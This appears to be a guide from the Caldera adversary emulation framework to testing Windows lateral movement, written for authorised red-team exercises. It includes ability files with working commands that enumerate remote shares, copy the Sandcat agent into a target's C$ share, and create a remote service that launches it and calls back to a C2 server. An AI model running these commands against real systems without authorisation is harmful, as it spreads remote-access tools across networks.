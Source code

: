 # Windows Lateral Movement Guide

Exercising Caldera's lateral movement and remote execution abilities allows you to test how easily an adversary can move
within your network. This guide will walk you through some of the necessary setup steps to get started with testing 
lateral movement in a Windows environment.

## Setup

### Firewall Exceptions and Enabling File and Printer Sharing

The firewall of the target host should not be blocking UDP ports 137 and 138 and TCP ports 139 and 445. The firewall
should also allow inbound file and printer sharing.

```
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
```

### User with Administrative Privileges

This guide will assume a user *with administrative privileges to the target host* has been compromised and that a CALDERA
agent has been spawned with this user's privileges. Some methods of lateral movement may depend on whether (1) the user 
has administrative privileges but is not a domain account or (2) the user has administrative privileges and is a domain 
account. The example walkthrough in this guide should not be impacted by these distinctions.

### Additional Considerations

1. Ensure GPO/SRP or antivirus is not blocking remote access to shares.
2. Ensure at least ADMIN$, C$, and IPC$ shares exist on the target host.

## Lateral Movement Using CALDERA
Lateral movement can be a combination of two steps. The first requires confirmation of remote access to the next target 
host and the movement or upload of the remote access tool (RAT) executable to the host. The second part requires 
*execution* of the binary, which upon callback of the RAT on the new host would complete the lateral movement.

Most of CALDERA's lateral movement and execution abilities found in Stockpile have fact or relationship requirements 
that must be satisfied. This information may be passed to the operation in two ways:
1. The fact and relationship information may be added to an operation's source. A new source can be created or this
information can be added to an already existing source as long as that source is used by the operation. When configuring
an operation, open the "**AUTONOMOUS**" drop down section and select "Use [insert source name] facts" to indicate to the 
operation that it should take in fact and relationship information from the selected source.
2. The fact and relationship information can be discovered by an operation. This requires additional abilities to be run
prior to the lateral movement and execution abilities to collect the necessary fact and relationship information 
necessary to satisfy the ability requirements.

### Moving the Binary
There are several ways a binary can be moved or uploaded from one host to another. Some example methods used in 
CALDERA's lateral movement abilities include:
1. WinRM
2. SCP
3. wmic
4. SMB
5. psexec
 
Based on the tool used, additional permissions may need to be changed in order for users to conduct these actions 
remotely.

### Execution of the Binary
CALDERA's Stockpile execution abilities relevant to lateral movement mainly use wmic to remotely start the binary. Some 
additional execution methods include modifications to Windows services and scheduled tasks. The example in this guide 
will use the creation of a service to remotely start the binary (ability file included at the end of this guide).

See ATT&CK's [Execution](https://attack.mitre.org/tactics/TA0002/) tactic page for more details on execution methods.

### Displaying Lateral Movement in Debrief
Using the adversary profile in this guide and CALDERA's Debrief plugin, you can view the path an adversary took through 
the network via lateral movement attempts. In the Debrief modal, select the operation where lateral movement was 
attempted then select the Attack Path view from the upper right hand corner of graph views. This graph displays the 
originating C2 server and agent nodes connected by the execution command linking the originating agent to the newly
spawned agent.

In the example attack path graph below, the Service Creation Lateral Movement adversary profile was run on the `win10` 
host, which moved laterally to the `VAGRANTDC` machine via successful execution of the Service Creation ability.

![Debrief Attack Path Example](/img/debrief_attack_path.png)    

This capability relies on the `origin_link_id` field to be populated within the agent profile upon first
check-in and is currently implemented for the default agent, Sandcat. For more information about the `#{origin_link_id}`
global variable, see the explanation of **Command** in the [Abilities](Basic-Usage.md#abilities)
section of the Basic Usage guide. For more information about how lateral movement tracking is implemented 
in agents to be used with CALDERA, see the [Lateral Movement Tracking](How-to-Build-Agents.md#lateral-movement-tracking) 
section of the How to Build Agents guide.


## Example Lateral Movement Profile
This section will walkthrough the necessary steps for proper execution of the Service Creation Lateral Movement
adversary profile. This section will assume successful setup from the previous sections mentioned in this guide and that
a Sandcat agent has been spawned with administrative privileges to the remote target host. The full ability files used 
in this adversary profile are included at the end of this guide.

1. Go to `navigate` pane > `Advanced` > `sources`. This should open a new sources modal in the web GUI.
2. Click the toggle to create a new source. Enter "SC Source" as the source name. Then enter `remote.host.fqdn` as the 
fact name and the FQDN of the target host you are looking to move laterally to as the fact value. Click `Save` once 
source configuration has been completed.
3. Go to `navigate` pane > `Campaigns` > `operations`. Click the toggle to create a new operation. Under 
`BASIC OPTIONS` select the group with the relevant agent and the Service Creation Lateral Movement profile. Under 
`AUTONOMOUS`, select `Use SC Source facts`. If the source created from the previous step is not available in the 
drop down, try refreshing the page. 
4. Once operation configurations have been completed, click `Start` to start the operation.
5. Check the agents list for a new agent on the target host.

### Ability Files Used
```
- id: deeac480-5c2a-42b5-90bb-41675ee53c7e
  name: View remote shares
  description: View the shares of a remote host
  tactic: discovery
  technique:
    attack_id: T1135
    name: Network Share Discovery
  platforms:
    windows:
      psh:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
      cmd:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
```

```
- id: 65048ec1-f7ca-49d3-9410-10813e472b30
  name: Copy Sandcat (SMB)
  description: Copy Sandcat to remote host (SMB)
  tactic: lateral-movement
  technique:
    attack_id: T1021.002
    name: "Remote Services: SMB/Windows Admin Shares"
  platforms:
    windows:
      psh:
        command: |
          $path = "sandcat.go-windows";
          $drive = "\\#{remote.host.fqdn}\C$";
          Copy-Item -v -Path $path -Destination $drive"\Users\Public\s4ndc4t.exe";
        cleanup: |
          $drive = "\\#{remote.host.fqdn}\C$";
          Remove-Item -Path $drive"\Users\Public\s4ndc4t.exe" -Force;
        parsers:
          plugins.stockpile.app.parsers.54ndc47_remote_copy:
          - source: remote.host.fqdn
            edge: has_54ndc47_copy
        payloads:
        - sandcat.go-windows
  requirements:
  - plugins.stockpile.app.requirements.not_exists:
    - source: remote.host.fqdn
      edge: has_54ndc47_copy
  - plugins.stockpile.app.requirements.basic:
    - source: remote.host.fqdn
      edge: has_share
  - plugins.stockpile.app.requirements.no_backwards_movement:
    - source: remote.host.fqdn
```

```
- id: 95727b87-175c-4a69-8c7a-a5d82746a753
  name: Service Creation
  description: Create a service named "sandsvc" to execute remote Sandcat binary named "s4ndc4t.exe"
  tactic: execution
  technique:
    attack_id: T1569.002
    name: 'System Services: Service Execution'
  platforms:
    windows:
      psh:
        timeout: 300
        cleanup: |
          sc.exe \\#{remote.host.fqdn} stop sandsvc;
          sc.exe \\#{remote.host.fqdn} delete sandsvc /f;
          taskkill /s \\#{remote.host.fqdn} /FI "Imagename eq s4ndc4t.exe"
        command: |
          sc.exe \\#{remote.host.fqdn} create sandsvc start= demand error= ignore binpath= "cmd /c start C:\Users\Public\s4ndc4t.exe -server #{server} -v -originLinkID #{origin_link_id}" displayname= "Sandcat Execution";
          sc.exe \\#{remote.host.fqdn} start sandsvc;
          Start-Sleep -s 15;
          Get-Process -ComputerName #{remote.host.fqdn} s4ndc4t;
```

